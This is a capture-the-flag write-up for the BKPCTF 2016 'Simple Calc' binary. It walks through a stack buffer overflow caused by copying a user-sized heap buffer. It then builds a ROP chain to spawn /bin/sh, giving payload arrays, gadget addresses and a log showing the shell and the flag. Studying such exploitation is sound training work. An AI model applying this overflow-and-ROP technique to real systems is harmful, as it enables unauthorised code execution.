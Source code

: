 ```yaml
---
layout: post
title:  "BKPCTF 2016 - Simple Calc"
date:   2016-03-07 22:51:04 +1100
categories: ctf bkpctf 2016
---
```


### Info ###

{% highlight bash %}
~/cur/simple_calc $ file b28b103ea5f1171553554f0127696a18c6d2dcf7
b28b103ea5f1171553554f0127696a18c6d2dcf7: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~/cur/simple_calc $ checksec.sh --file b28b103ea5f1171553554f0127696a18c6d2dcf7                                                                                              [22:30]
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   b28b103ea5f1171553554f0127696a18c6d2dcf7
{% endhighlight %}

### Vulnerability ###

`simple_calc` offered a binary that expects us to make some calculations.
It will ask for a number of calculations (say *N*) to perform and will
`malloc()` *N*x4 bytes in the heap. If we decompile with
[IDA](https://www.hex-rays.com/products/ida/), it'll look something like this:

![](https://i.imgur.com/aFaqYf6.png)

Then a loop of *N* iterations will commence,
each iteration offering to perform one of the possible arithmetic operations,
ADD/SUB/MUL/DIV, or exit. Those operations perform pretty much what you expect of them,
which take in 2 DWORD operands, and apply the function. What is worth noticing is that
both operands and result are stored in the `.bss` (therefore at predictable
addresses).

```
[...]
.bss:00000000006C4A84 add_operator_2  dd ?                    ; DATA XREF: adds+40
.bss:00000000006C4A84                                         ; adds+69 ...
.bss:00000000006C4A88 add_result      dd ?                    ; DATA XREF: adds+96
.bss:00000000006C4A88                                         ; adds+9C ...
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90                 public div_operator_1
.bss:00000000006C4A90 div_operator_1  dd ?                    ; DATA XREF: divs+13
.bss:00000000006C4A90                                         ; divs+5E ...
.bss:00000000006C4A94 div_operator_2  dd ?                    ; DATA XREF: divs+40
.bss:00000000006C4A94                                         ; divs+69 ...
.bss:00000000006C4A98 div_result      dd ?                    ; DATA XREF: divs+9B
[...]
```

By exiting, `simple_calc` performs a `memcpy()` of the malloc-ed buffer (whose
length is controlled by us) into a stack buffer (of length 0x28 bytes) located
at $rbp+40h.
![](https://i.imgur.com/0wcLH24.png)

It is then easy to spot the trivial stack buffer overflow.


### Exploitation ###

When an operation is finished, the resulting DWORD is stored inside the malloc-ed
buffer at the offset corresponding of the main loop iteration.
So the game here is to play with those (basic) arithmetic operations to
write arbitrary data in the malloc-ed buffer: for example, if we want to write
0x10001000 | 0x20002000 in our malloc-ed buffer, we would create 2 operations,
then perform:

   1. an ADD with op1=0x10000000 and op2=0x00001000
   1. an ADD with op1=0x20000000 and op2=0x00002000
   1. and so on

By calling successively the same arithmetic operation, say `ADD` (or any other),
we have a predictable way to populate the malloc-ed buffer.

To corrupt the memory we must fill the stack buffer entirely (40 bytes), so make
at least 10 operations. The stack buffer is followed (in the memory layout) by
variables, so we add 24 bytes of junk (3 QWORD), another QWORD for
overwriting the SFP, and a last to overwrite RIP.

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
{% endhighlight %}

We execute and a SIGSEGV was well caught (as seen with
[`gef`](https://github.com/hugsy/gef)) :
![](https://i.imgur.com/rn4XSOR.png)

However, the faulty instruction is in the `free()` following the `memcpy()` and
yet not in the return from the main function.
`free()` is trying to remove the chunk pointed by the value stored in $rdi (here
0x4444444444444444). However, a quick look in the man page (`man 3 free`) and we
find our solution:

> The free() function frees the memory space pointed to by ptr,[...] If ptr is
> NULL, no operation is performed.

So let's rebuild our stack accordingly:

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
{% endhighlight %}

We try again, and we hit the SIGSEGV in the RET. Perfect, time to bypass NX.

```
Program received signal SIGSEGV, Segmentation fault.
[...]
0x40157c	 <main+505>  mov    edi,eax
0x40157e	 <main+507>  call   0x4156d0 <free>
0x401583	 <main+512>  mov    eax,0x0
0x401588	 <main+517>  leave
0x401589	 <main+518>  ret 		 ← $pc
0x40158a	 nop    WORD PTR [rax+rax*1+0x0]
0x401590	 <__libc_start_main>  push   r14
```

We want to have a shell (what else, right?) so we need all the gadgets to
syscall execve('/bin/sh', 0, 0).

Bypassing NX is not that hard, all we need are the right gadgets. We choose a
writable address, and write '/bin//sh' (we arbitrarily chose 0x6c3110 in the
`.bss`). Using [`ropgadget`](https://github.com/JonathanSalwan/ROPgadget) makes
it easier than ever:

```
0x401c87:                  # pop rsi ; ret
0x6c3110:                  # our writable address
0x44db34:                  # pop rax ; ret
0x6e69622f, 0x68732f2f,    # /bin//sh
0x470f11                   # mov qword ptr [rsi], rax ; ret
0x447233:                  # mov    rax,rsi; ret
0x479295                   # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret
```

At this stage, we have `/bin//sh` written @0x6c3110 and this address inside the
EDI register. Then we can use the gadget `0x437aa9: pop rdx ; pop rsi ; ret` to populate RSI and
RDX with 0. Because it embeds a libc, the binary is full of `syscall`
instructions, we'll use the one at 0x435675.

We now have our full chain:

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars

             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # last overwritten vars
             0x44444444, 0x44444444, # sfp

             0x401c87, 0, # pop rsi ; ret
             0x6c3110,  0x0, # addr rw

             0x44db34, 0, # pop rax ; ret
             0x6e69622f, 0x68732f2f,  #  /bin//sh

             0x470f11, 0, # mov qword ptr [rsi], rax ; ret

             0x447233, 0, # mov    rax,rsi; ret
             0x479295, 0, # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret

             0x44db34, 0x0, # pop rax
             0x3b, 0, # syscall_execve

             0x437aa9, 0x0, # pop rdx ; pop rsi ; ret
             0, 0,
             0, 0,

             0x435675, 0, # syscall()
    ]
{% endhighlight %}

Run and pwn !

```bash
/cur/simple_calc $ ./simple_calc.py                                                                                                                                         [23:36]
[+] Connected to localhost:5400
[+] Running 45 calculations
[+] Iter 1: got result 0x41414141
[+] Iter 2: got result 0x41414141
[+] Iter 3: got result 0x41414141
[+] Iter 4: got result 0x41414141
[+] Iter 5: got result 0x41414141
[+] Iter 6: got result 0x41414141
[+] Iter 7: got result 0x41414141
[...]
[+] Triggering exploit
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
ls
key
simple_calc
cat key
BKPCTF{what_is_2015_minus_7547}
```

The full exploit is [here](https://gist.github.com/hugsy/88e7137466505e0402ca).
